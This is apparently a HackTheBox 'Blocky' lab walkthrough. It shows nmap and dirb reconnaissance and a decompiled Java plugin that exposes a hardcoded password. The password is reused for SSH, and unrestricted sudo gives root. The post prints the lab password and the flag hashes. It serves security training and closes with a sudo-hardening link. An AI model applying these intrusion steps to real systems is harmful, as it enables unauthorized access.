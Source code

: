 ```yaml
---
title: HackTheBox - Blocky
date: 2020-12-22 00:17:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, minecraft server, wordpress, java, decompilation, jd-gui, sudo weak configuration, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/Blocky.png 
---
```


## Foothold

### Nmap scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Blocky-full-port-scan.txt 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.12s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

### Apache httpd 2.4.18  (port 80)

If we click on the first post on [http://10.10.10.37/](http://10.10.10.37/), we are redirected to a second page where we see a username (`notch`):

![notch](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/notch.png)

> Since it's a wordpess site we could also query [http://10.10.10.37/?author=1](http://10.10.10.37/?author=1).

With `dirb` we can discover some interesting directories:  

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/dirb.png)

On [http://10.10.10.37/plugins/](http://10.10.10.37/plugins/) there are two `.jar` files:

![plugins](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/plugins.png)

**JAR** stands for **J**ava **A**rchive **D**ata. We can decompile these files with [`jd-gui`](http://java-decompiler.github.io/):

![jd-gui](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/jd-gui.png)

Is this a password?! Let's try to log in to SSH with username `notch` and the password we just found `8YsqfCTnvxAUeduzjNSXe22`

![shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/shell.png)

Bingo, we have a shell!

## User

```bash
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5
```

The first thing to check is: _in which groups is the user I just owned?_ 

```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

As we can see, he's part of the `sudo` users. Let's see what we can run with `sudo`:

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Everything! Are you serious notch?!

![are you serious gif](https://i.gifer.com/2yUm.gif)

## Root

```
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# cd /root
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt
0a9694a5b4d272c694679f7860f1cd5f
```

___

# Useful links

- [Reconnoitre](https://github.com/codingo/Reconnoitre)
- [wpscan](https://github.com/wpscanteam/wpscan)
- [`jd-gui`: a Java decompiler](http://java-decompiler.github.io/)
- [Best practices for hardening sudo?](https://security.stackexchange.com/questions/135352/best-practices-for-hardening-sudo)
